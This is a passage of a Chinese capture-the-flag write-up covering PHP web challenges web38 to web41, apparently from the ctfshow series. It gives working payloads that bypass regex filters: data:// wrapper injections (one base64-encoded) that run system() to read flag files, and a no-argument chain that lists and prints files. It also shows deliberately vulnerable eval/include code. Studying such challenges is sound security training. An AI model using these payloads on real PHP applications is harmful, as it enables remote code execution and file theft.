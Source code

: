 `payload：/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTsgPz4=`

也可以用短标签`/?c=data://text/plain,<?=system("cat fl*")?>`

## web39

```php
if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
```

payload同上一题

## web40

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

`$`被过滤了，不能`$_GET[]`二次传参，`/`被过滤，日志文件包含好像也不行了，注意这里的括号是中文括号，所以有括号的函数可以用，但是这里单双引号都被过滤，函数就不能直接传参，要用到[无参数读取文件](https://www.freebuf.com/articles/system/242482.html)的方法，

`/?c=print_r(scandir(current(localeconv())));`，产看当前目录所有文件名，返回如下，

```
Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php )
```

然后读取文件`payload：/?c=show_source(next(array_reverse(scandir(current(localeconv())))));`

## web41

```php
<?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```
